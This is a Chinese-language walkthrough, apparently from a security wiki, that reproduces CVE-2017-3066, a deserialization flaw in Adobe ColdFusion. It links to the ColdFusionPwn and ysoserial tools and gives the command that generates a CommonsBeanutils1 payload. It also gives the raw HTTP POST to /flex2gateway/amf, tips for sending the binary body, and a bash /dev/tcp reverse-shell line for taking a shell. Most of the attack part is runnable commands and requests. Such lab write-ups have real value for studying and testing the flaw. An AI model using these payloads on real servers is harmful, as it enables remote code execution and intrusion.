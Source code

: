 （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

三、复现过程
------------

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

Usage
-----

    java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

    java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`**路径不唯一，目前已收集到的为以下两种路径：****/flex2gateway/amf****/messagebroker/amf**

    POST /flex2gateway/amf HTTP/1.1
    Host: your-ip:8500
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-amf
    Content-Length: 2853

    [...poc...]

![](resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId28.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![](resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId31.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![](resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId32.png)

进入容器中，发现`/tmp/success`已成功创建：

![](resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId33.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![](resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId35.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

    bash -i >& /dev/tcp/ip/port 0>&1

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2017-3066/
